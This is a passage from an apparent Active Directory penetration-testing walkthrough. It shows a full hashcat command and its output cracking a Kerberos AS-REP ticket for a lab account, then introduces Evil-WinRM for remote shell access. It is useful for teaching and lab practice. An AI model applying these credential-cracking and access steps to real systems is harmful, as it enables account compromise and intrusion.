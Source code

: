 ## Cracking Hashes

Beautiful!
Now we can output it to a file and toss it into Hashcat, we will be using the mode 18200 (for this specific Kerberos ticket) 

*Depending on OS Version, Active Directory configuration, your Kerberos ticket may be different. You may need a different mode. You can view all of them here, under the <a href='https://hashcat.net/wiki/doku.php?id=example_hashes'>Hashcat Example Hashes Page</a>*
```
┌─[✗]─[root@Sp00kyS3c]─[~/hashcat]
└──╼ #hashcat -a 0 -m 18200 ./ticket /usr/share/wordlists/rockyou.txt 
hashcat (v5.1.0) starting...

OpenCL Platform #1: NVIDIA Corporation
======================================
* Device #1: GeForce GTX 1070, 2029/8116 MB allocatable, 15MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

$krb5asrep$23$svc-demo@SPOOKYSEC.LOCAL:f1806292678070 <Snip!> 111f279122d10104b0cfe92c45dcca7eddf45d72eed33437a878b2e68cd844e5c5fd59fb2c72701db5a73ad18bf:Sup3rS3cr3tP4ssw0rd!
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Type........: Kerberos 5 AS-REP etype 23
Hash.Target......: $krb5asrep$23$svc-demo@SPOOKYSEC.LOCAL:f1806292678070...bffc41
Time.Started.....: Sun Nov 17 16:38:47 2019 (1 sec)
Time.Estimated...: Sun Nov 17 16:38:48 2019 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  9757.1 kH/s (6.50ms) @ Accel:512 Loops:1 Thr:64 Vec:1
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 4423680/14344385 (30.84%)
Rejected.........: 0/4423680 (0.00%)
Restore.Point....: 3932160/14344385 (27.41%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: seaford123 -> raain
Hardware.Mon.#1..: Temp: 41c Fan:  0% Util: 10% Core:1949MHz Mem:3802MHz Bus:16

Started: Sun Nov 17 16:38:45 2019
Stopped: Sun Nov 17 16:38:48 2019
```

Very quickly we cracked the user accounts password. If RDP, WinRM, or SMB is open, we can now authenthicate against each service with the cracked user account password!

## Gaining Access with Evil-WinRM

Evil-WinRM is a remote access utility that takes advantage of Windows Remote Management tool, it's super cool and super handy as it will give you a powershell session directly on the box.
